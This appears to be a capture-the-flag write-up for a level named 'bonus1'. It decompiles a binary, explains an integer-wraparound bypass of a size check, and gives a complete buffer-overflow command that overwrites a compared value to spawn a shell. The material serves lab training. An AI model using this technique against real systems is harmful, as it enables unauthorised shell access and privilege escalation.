 # Bonus 1

We have a program who take arguments:

```sh
$ ./bonus1 
Segmentation fault (core dumped)
$ ./bonus1 42
$ ./bonus1 42 42
```

By decompiling the code, we find:
```c
int main(int argc, char **argv)
{
    int arg = atoi(argv[1]);
    int test;
    if (arg > 9) {
        test = 1;
    } else {
        char buf[40];
        memcpy(&buf, argv[2], arg * 4);
        if (arg == 0x574f4c46) {
            execl("/bin/sh", "sh");
        }
        test = 0;
    }
    return test;
}
```

The problem is the next one: we need to set "arg" to 0x574f4c46 to start a shell, but the atoi prevent the value to be superior to 9.

We also see a buffer of 40, maybe we can perform a buffer overflow but same problem, the number of byte we can put with the memcpy depends on arg who's still limited on 9.

To start, we can bypass the comparaison with 9 by passing a negative value wo rotate with unsigned value like: -2147483637 who will give 44 when casted.

```sh
$ python -c "print((-2147483637 * 4) & 0xFFFFFFFF)"
44
```
So know, we can bypass the first comparaison, and define a size bigger than the buffer, we can perform our overflow!

./bonus1 -2147483637 $(python -c 'print("A" * 40 + "\x46\x4c\x4f\x57")')


